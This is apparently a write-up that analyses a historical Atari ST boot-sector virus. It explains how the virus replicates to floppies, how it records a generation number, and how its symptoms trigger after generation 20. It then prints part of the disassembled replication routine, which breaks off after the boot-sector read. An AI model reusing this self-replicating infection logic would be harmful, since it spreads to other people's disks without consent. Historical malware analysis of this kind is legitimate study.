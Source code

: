 ### REPLICATE AND MUTATE

This routine is called in 3 places:

 - at the end of the system vectors installation routine (`SET_SYSTEM_VECTORS`)
 - if the `hdv_hpb` vector is called
 - if the `hdv_mediach` vector is called

And it is managing the replication part of the virus but also trigger the symptoms in a special case.
This is where the self-mutating capability starts. At the 6th byte of the bootsector, instead of reserved OEM data, the virus stores here the generation number, meaning, like in a ancestry tree, how many generations of this virus existed before. Each time the virus is replicated, the generation number is equals to the virus generation + 1.
So, while the virus is in memory,assuming it is in generation `n`, any new floppy infected will have a generation number of `n+1`.
If the Atari is cold-reseted (memory totally erased) and boots with a newly infected floppy, the current generation number will be `n+1` and new offsprings `n+2`. And so on.

And... the symptoms will only sho if the generation if more than 20. So if you got infected by the "original" virus (1st generation), at least 20 infections after 20 cold resets will be needed to show the symptoms.
For example, the Sagrotan virus database contains the generation 16, so before it was recorded by Henrik Alt, at least 16 generations have spread (in the lab? Nobody knows)

You get the mutation part. Pretty cool, no?

So, now what this routine does:

 - It loads a location in RAM to store the bootsector (FLOPPY_BUFFER)
 - Retrieves the boot device from the stack (0: A, 1: B...)
 - Use the `rwabs` system call to read the 1st sector of the 1st track: the boot sector
 - Check if the bootsector is executable (classic word checksum of $1234), just do nothing if this is the case to keep the floppy usable
 - Else patch the floppy buffer containing the floppy bootsector and:
   - Write the `BSR` bootsector start and virus ID
   - Write the generation number from the current resident virus, incremented by 1
   - Copy the virus code starting from the `START-2` `BRA`
 - Use `Protobt` system call to create the full executable bootsector based on this buffer
 - Use again the `rwabs` system call this time to write back the bootsector
 - Check the current virus generation and call the symptoms routine if the generation is more than 20 (`GENERATION_TRIGGER`)


```asm
; ----------------------------------------------------------------------------------------------------------
; Replication routine
; stack: bootdev.W
; ----------------------------------------------------------------------------------------------------------
REPLICATE:
        MOVEM.L   A0-A3/D0-D2,-(sp)
        MOVEA.L   FLOPPY_BUFFER.L,A3                ; floppy buffer addr in A3
        MOVE.W    4(sp),-(sp)                       ; dev = get bootdev from stack? BSR + 2 on stack

        ; read bootsector
        CLR.W     -(sp)                             ; recno = 0
        MOVE.W    #1,-(sp)                          ; count = 1
        PEA       (A3)                              ; buf = A3
        MOVE.W    #2,-(sp)                          ; mode = 2 / Disable retries
        MOVE.W    #4,-(sp)                          ; LONG Rwabs( mode, buf, count, recno, dev)
        TRAP      #$D
        ADDA.W    #$E,sp                            ; fix stack
        TST.L     D0                                ; check for error
        BNE       .do_nothing
```